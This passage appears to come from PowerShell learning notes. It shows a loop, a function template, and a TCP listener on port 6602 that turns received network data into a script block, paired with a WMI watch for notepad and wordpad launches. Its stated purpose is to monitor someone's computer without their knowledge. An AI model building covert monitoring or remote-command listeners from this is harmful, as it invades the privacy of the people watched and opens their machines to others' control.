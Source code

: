 ```powershell
$i = 0
while($i -lt 999){
    $i++
    $i
}
Write-Host "`nCount complete - We have counted up to $i" -ForegroundColor Cyan
```
- **AKA the original for-loop or you can call the for-loop a wannabe while loop, either one works with me**

### Functions:

```powershell
Function <name>{
	Function ($parameter){
	<Insert code here>
	}
	<Insert code here>
}
<name> -parameter 1
```

## The Cool Stuff

### TCP Listener

- Idea: we monitor someone’s computer and we get a notification when they open an application

```powershell
function WMI_Subscription{

function server($port){
    $Tcplistener = New-object System.Net.Sockets.TcpListener $port
    $Tcplistener.Start()
    Write-host "[-] " -ForegroundColor green -NoNewline; Write-Host "Listening: 0.0.0.0:$port" -ForegroundColor cyan
    $TcpClient = $Tcplistener.AcceptTcpClient()
    $remoteclient = $TcpClient.Client.RemoteEndPoint.Address.IPAddressToString
    Write-Host "[-] " -ForegroundColor green -NoNewline; Write-Host "New connection: $remoteclient" -ForegroundColor Cyan

    $TcpNetworkstream = $TCPClient.GetStream()
    $Receivebuffer = New-Object Byte[] $TcpClient.ReceiveBufferSize
    $encodingtype = New-Object System.Text.ASCIIEncoding
    while ($TCPClient.Connected){
        $Read = $TcpNetworkstream.Read($Receivebuffer, 0, $Receivebuffer.Length)          
            [Array]$Bytesreceived += $Receivebuffer[0..($Read -1)]
            [Array]::Clear($Receivebuffer, 0, $Read)

            $ScriptBlock = [ScriptBlock]::Create($EncodingType.GetString($Bytesreceived))
            $ScriptBlock
            $TcpNetworkstream.Dispose(); $Tcpclient.Dispose(), $Tcplistener.Stop()
    }
}
server -port 6602

# Temp WMI... dies when the process terminates

Get-Process -Name notepad  -ErrorAction SilentlyContinue | Stop-Process

Register-CimIndicationEvent -Query "Select * from __InstanceCreationEvent within 15 where targetInstance isa 'win32_process' and (targetinstance.name = 'notepad.exe' OR targetinstance.name = 'wordpad.exe')" `
```